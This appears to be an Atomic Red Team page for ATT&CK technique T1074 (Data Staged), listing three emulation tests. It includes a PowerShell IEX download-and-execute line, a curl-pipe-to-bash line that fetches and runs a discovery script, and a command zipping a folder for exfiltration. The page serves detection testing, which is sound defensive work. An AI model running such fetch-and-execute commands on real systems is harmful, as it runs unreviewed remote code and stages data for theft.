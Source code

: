 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell](#atomic-test-3---zip-a-folder-with-powershell)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/ARTifacts/Misc/Discovery.bat') > pi.log
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS



#### Attack Commands: Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.sh | bash -s > /tmp/discovery.log
```





<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell
use living off the land tools to encrypt and zip a file for exfiltration

**Supported Platforms:** Windows



#### Attack Commands: Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_encrypt -DestinationPath $env:TEMP\Folder_to_encrypt.zip
```





<br/>
